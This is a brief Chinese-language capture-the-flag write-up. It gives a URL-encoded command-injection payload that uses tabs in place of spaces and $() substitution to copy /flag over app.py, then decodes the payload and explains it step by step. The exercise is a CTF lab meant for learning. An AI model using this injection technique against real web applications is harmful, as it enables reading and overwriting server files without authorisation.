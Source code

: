 ```ABAP
cp%09%24%28cd%09%2E%2E%26%26cd%09%2E%2E%26%26cd%09%2E%2E%26%26cd%09%2E%2E%26%26cd%09%2E%2E%26%26cd%09%2E%2E%26%26cd%09%2E%2E%26%26cd%09%2E%2E%26%26echo%09%24%28pwd%29flag%29%09app%2Epy

解码后
cp	$(cd	..&&cd	..&&cd	..&&cd	..&&cd	..&&cd	..&&cd	..&&cd	..&&echo	$(pwd)flag)	app.py

讲下要点
cd .. 和 cd ../ 一样是返回上级目录
$() 和 `` 一样，里面是一个bash命令
本题先用$()套住一个bash，然后cd到主目录，再用$(pwd)获取当前目录，也就是 / !!!!!
最后复制到app.py
然后flask的尿性我也不懂，有时候保存后服务器就重启，有时候要重开
本题也就是要重开所以就没有关闭服务器
然后查看 /source 得到flag
```

